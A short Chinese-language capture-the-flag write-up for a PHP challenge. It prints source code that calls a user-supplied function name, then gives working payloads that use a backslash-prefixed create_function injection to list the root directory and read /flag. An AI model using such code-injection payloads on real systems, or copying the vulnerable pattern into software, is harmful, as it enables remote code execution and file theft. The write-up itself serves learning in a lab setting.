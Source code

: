```
`<?php   //sorry , here is true last level   //^_^   error_reporting(0);   include "str.php";      $a = $_GET['a'];   $b = $_GET['b'];   if(preg_match('/^[a-z0-9_]*$/isD',$a)){    show_source(__FILE__);   }   else{    $a('',$b);   }``<?php   //sorry , here is true last level   //^_^   error_reporting(0);   include "str.php";      $a = $_GET['a'];   $b = $_GET['b'];   if(preg_match('/^[a-z0-9_]*$/isD',$a)){    show_source(__FILE__);   }   else{    $a('',$b);   }`
```


通过下面的a(′′,a(′′,b) 猜到可能是 create_function绕过  
然后那个正则表达式 让第一个字符不能为字母数字下划线  
使用exp  
`a=\create_function&b=return 'mmkjhhsd';}var_dump(scandir('/'));/*`  
发现根目录下有一个flag文件  
然后  
`a=\create_function&b=return 'mmkjhhsd';}var_dump(file_get_contents('/flag'));/*`  
获取到flag
